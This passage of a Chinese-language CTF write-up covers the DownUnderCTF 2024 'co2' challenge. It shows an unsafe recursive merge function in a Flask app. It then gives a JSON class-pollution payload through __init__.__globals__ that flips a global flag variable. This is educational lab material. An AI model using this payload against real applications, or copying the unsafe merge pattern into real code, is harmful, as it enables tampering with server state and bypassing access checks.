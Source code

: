 然后发包伪造seesion即可

DownUnderCTF 2024 - co2
-----------------------

在utils中

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

写了一个merge

```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200
```

并且在这里进行了调用

```python
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

只需要污染flag的bool值即可

```python
{ "__init__" : { "__globals__" : { "flag" : "true" } } }
```

总结
==

原型链污染挺好玩的hhh，不知道其他语言有没有这个洞嘞。